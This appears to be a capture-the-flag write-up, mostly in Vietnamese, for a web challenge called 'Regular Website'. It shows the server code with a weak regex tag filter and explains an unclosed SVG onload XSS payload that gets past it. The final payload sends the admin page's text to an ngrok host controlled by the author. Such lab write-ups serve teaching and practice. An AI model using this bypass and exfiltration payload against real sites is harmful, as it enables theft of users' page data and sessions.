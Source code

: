 # Regular Website

## Description

They said you couldn't parse HTML with regex. So that's exactly what I did!

## Solution

![img](img/img8.png)

> server.js

```
import Router from '@koa/router';
import Koa from 'koa';
import koaStatic from 'koa-static';
import bodyParser from 'koa-bodyparser';
import { launch } from 'puppeteer';
import { readFileSync } from 'fs';

const flag = readFileSync("flag.txt", "utf8");
const verbs = readFileSync("verbs.txt", "utf8").split("\n").map(s => s.trim()).filter(s => {
    return s.length > 0 && !s.startsWith("#");
});

const app = new Koa();
const browser = launch({args: ["--incognito", "--no-sandbox"]});

const router = new Router();
router.post("/", async ctx => {
    if (typeof ctx.request.body !== "object") {
        ctx.throw(400, "body must be an object");
        return;
    }
    const text = ctx.request.body.text;
    if (typeof text !== "string") {
        ctx.throw(400, "text must be a string");
        return;
    }

    const sanitized = text.replace(/<[\s\S]*>/g, "XSS DETECTED!!!!!!");
    const page = await (await browser).newPage();
    await page.setJavaScriptEnabled(true);
    try {
        await page.setContent(`
        <!DOCTYPE html>
        <html>
            <head>
                <meta charset="utf-8">
                <title>Comment</title>
            </head>
            <body>
                <p>Welcome to the Regular Website admin panel.</p>
                <h2>Site Stats</h2>
                <p><strong>Comments:</strong> ???</p>
                <p><strong>Flag:</strong> ${flag}</p>
                <h2>Latest Comment</h2>
                ${sanitized}
            </body>
        </html>
        `, {timeout: 3000, waitUntil: "networkidle2"});
    } catch (e) {
        console.error(e);
        ctx.status = 500;
        ctx.body = "error viewing comment";
        await page.close();
        return;
    }
    ctx.body = `The author of this site has ${verbs[Math.floor(Math.random() * verbs.length)]} your comment.`;
    await page.close();
});

app.use(bodyParser());
app.use(router.routes());
app.use(koaStatic("../public"));
app.listen(1337);
console.log("Listening on port 1337");
```

Dựa vào source ta có thể xác định đây là một chall về XSS(https://viblo.asia/p/ky-thuat-tan-cong-xss-va-cach-ngan-chan-YWOZr0Py5Q0)

Tuy nhiên ở đây có một vấn đề ta cần chú ý và nếu vượt qua đc thì coi như xong.
Để ý : ```const sanitized = text.replace(/<[\s\S]*>/g, "XSS DETECTED!!!!!!");```

Đoạn code này mục đích là để làm sạch đầu vào nó sẽ thay thế tất cả thẻ html có dạng ```<somthing>``` vì vậy trước tiên ta cần giải quyết vấn đề này.Sau khi tìm kiếm một số payload trên google thì mk đã thấy một cái có thể dùng được :

>Payload: <svg/onload=location="http://webattack ";//

Tiếp đến là khai thác XSS như thế nào ? Ta sẽ quay lại form phía trên , từ form này ta có thể gửi comment cho admin vì vậy khi gửi payload kia vô tình admin đọc được nó sẽ tự động thiết lập một request đến web của attacker .
Đa phần các kịch bản như vậy là để ăn cắp cookie hay session, tuy nhiên trong bài này để có flag ta cần đọc được nội dung trong trang của admin .

```
<!DOCTYPE html>
        <html>
            <head>
                <meta charset="utf-8">
                <title>Comment</title>
            </head>
            <body>
                <p>Welcome to the Regular Website admin panel.</p>
                <h2>Site Stats</h2>
                <p><strong>Comments:</strong> ???</p>
                <p><strong>Flag:</strong> ${flag}</p>
                <h2>Latest Comment</h2>
                ${sanitized}
            </body>
        </html>
```
Vì vậy payload cuối cùng đc thực thi sẽ là :

><svg/onload=location="http://8e140a765b26.ngrok.io?c/="+document.body.textContent;//

Đầu tiên tôi sẽ dựng một server bằng ngrok để nhận request đến, sau đó tôi sẽ gửi comment này cho admin , khi admin đọc nó sẽ có một request được gửi tới web của tôi và chứa thông tin của trang admin được đọc qua ```document.body.textContent```.

![img](img/img9.png)




